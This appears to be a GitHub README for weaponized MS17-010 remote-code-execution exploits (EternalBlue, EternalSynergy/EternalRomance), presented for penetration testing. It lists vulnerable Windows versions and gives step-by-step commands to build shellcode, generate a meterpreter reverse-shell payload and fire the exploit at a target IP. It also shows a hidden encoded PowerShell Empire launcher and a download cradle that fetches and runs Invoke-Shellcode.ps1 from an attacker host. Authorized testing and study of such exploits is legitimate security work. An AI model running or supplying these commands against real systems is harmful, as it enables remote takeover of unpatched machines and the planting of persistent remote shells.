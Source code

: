 # MS17-010 RCE PoC's

All credits go out to [worawit](https://github.com/worawit/MS17-010). I've just added some usage clarifications and weaponized them to be more usable for pentesting purposes.

## Eternalblue

Eternalblue only requires access to IPC$ to exploit a target while other exploits require access to a named pipe as well. Eternalblue thus works on all versions of Windows that allow anonymous access to IPC$ (Windows 7 and Windows 2008, or later version explicitly configured to allow anonymous access). Keep in mind that Eternalblue has a higher change of crashing a target than Eternalsynergy - Eternalromance, so don't try this on critical systems. 

### Compatible targets

**eternalblue_exploit7:**

- Windows 7 SP1 x64
- Windows 7 SP1 x86
- Windows Server 2008 R2 SP1 x64
- Windows Server 2008 SP1 x86

**eternalblue_exploit8:**

- Windows Server 2012 R2 x64
- Windows 8.1 x64

### Exploit usage

Example for spawning a meterpreter session on an x64 machine:

1. `nasm -f bin eternalblue_kshellcode_x64.asm`
2. `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_msf.bin EXITFUNC=thread LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>`
3. `cat eternalblue_kshellcode_x64 meterpreter_msf.bin > sc_x64.bin`
4. `python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin`


## Eternalsynergy - Eternalromance

This exploit exploits the same bug used by NSA's Eternalromance and Eternalsynergy. A named pipe is needed, meaning on more modern (default) configurations you will need credentials in order for the exploit to work. In most cases, domain user credentials will suffice. 

### Compatible targets

- Windows 2016 x64
- Windows 10 x64
- Windows 10 x86
- Windows 2012 R2 x64
- Windows 2008 R2 SP1 x64
- Windows 2008 SP1 x64
- Windows 2008 SP1 x86
- Windows 8.1 x64
- Windows 8.1 x86
- Windows 7 SP1 x86
- Windows 7 SP1 x64
- Windows 2003 SP2 x86
- Windows 2003 R2 SP2 x64
- Windows XP SP2 x64
- Windows XP SP3 x86

### Usage

Example for finding a named pipe (not required anymore, exploit now automatically finds a named pipe on the target):

`python find_named_pip.py 192.168.178.2 testuser Password123`

Usage of `eternalsynergy_romance.py`: 

`python eternalsynergy_romance.py <target_ip_address> <username> <password> <command_to_execute>`

Example for spawning an Empire agent:

`python eternalsynergy_romance.py 192.168.178.2 testuser Password123 "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AEUAbQAuAE4AZQBUAC..."`

Example for spawning a meterpreter session:

`python eternalsynergy_romance.py 192.168.178.2 testuser Password123 "powershell -Exec ByPass -NoP -noexit \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.3/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.178.3 -Lport 8443 -Force \""`

(I typically grab Invoke-Shellcode.ps1 from http://bit.ly/2cuWJTF, but that only works when the target has an unfiltered outbound connection.)
